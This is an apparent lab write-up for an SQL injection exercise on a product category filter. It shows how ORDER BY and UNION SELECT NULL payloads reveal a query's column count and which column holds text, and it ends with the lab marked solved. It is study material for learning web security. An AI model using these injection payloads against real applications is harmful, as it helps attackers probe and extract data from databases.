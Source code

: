 **SQL Injection: Product category filter**
*- Goal: determine the number of columns returned by the query and the data type of columns*

*- Review and rule:*
> 1. The number and the order of the columns must be the same in all queries

> 2. The data types must be compatible
**STEP #1: Determin number of columns**

*- SQLi attack (way#1):*
`select ? from table 1 UNION select NULL`
 
> return error: incorrect number of columns

`select ? from table1 UNION select NULL,NULL,...`

> return 200 response code 
-> coreect number of columns

*-SQLi attack (way#2):*
`select a,b from talbe1 order by 3`
**STEP #2: Determin the data type of the columns**

`SELECT a,b,c from table1 UNION SELECT NULL, NULL,'a'`
> return error: column is not type text

> no error: column is of type text

*- Analyse: *
1. ' order by x--: determine number of columns --> 3 columns
2. UNION attack 'UNION select x,y,z--, try x,y,z belong in {NULL,'a'}
   ' UNION select NULL,'xcDX15',NULL-- -> return no error -> column 2 has type of text
*`LAB SOLVED`*
![alt text](result.png)